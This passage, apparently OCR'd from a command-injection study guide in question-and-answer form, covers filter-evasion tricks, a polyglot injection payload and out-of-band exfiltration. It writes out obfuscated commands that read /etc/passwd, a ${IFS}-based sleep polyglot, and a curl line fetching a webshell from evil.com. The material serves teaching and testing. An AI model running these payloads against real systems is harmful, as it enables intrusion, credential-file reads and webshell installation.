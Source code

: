 - **Backslash-newline**: The backslash character allows breaking commands into multiple lines:
    ```bash
    cat /et\
    c/pa\
    sswd
    ```

- **Brace Expansion**: Used to generate arbitrary command variations:
    ```bash
    {cat,/bin/bash}/etc/passwd
    ```

These techniques evade simple character-based filters (such as space, semicolon, etc.) by obfuscating or transforming command syntax in ways that are still valid for the shell.

---

### **5. Polyglot Command Injection**

**Question**:  
What is a **polyglot command injection**? How does it work, and why is it so effective in exploiting vulnerabilities across multiple layers or platforms? Provide an example of a polyglot payload.

**Answer**:  
A **polyglot command injection** refers to a payload that can execute in multiple programming environments or shells simultaneously. This is especially useful in environments where input might be processed by more than one language or application layer (e.g., PHP, JavaScript, shell).

Example Polyglot:
```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
```
This command works inside commands using both single quotes and double quotes, and with different shell types, allowing it to bypass various input sanitization schemes.

---

### **6. Out-of-Band (OOB) Data Exfiltration**

**Question**:  
What is **out-of-band data exfiltration** in the context of command injection? How can tools like **interactsh** or **dnsbin** be used to exfiltrate data from a compromised system?

**Answer**:  
Out-of-band (OOB) data exfiltration occurs when an attacker sends the exfiltrated data over an alternative communication channel (e.g., DNS, HTTP requests) rather than direct communication with the victim server. This is effective when blind command injection (e.g., time-based) is the only feasible exploitation method.

- **Interactsh**: This tool helps detect out-of-band interactions. An attacker can use a payload like:
    ```bash
    curl http://evil.com -o webshell.php
    ```
    The payload could send requests to a server controlled by the attacker.

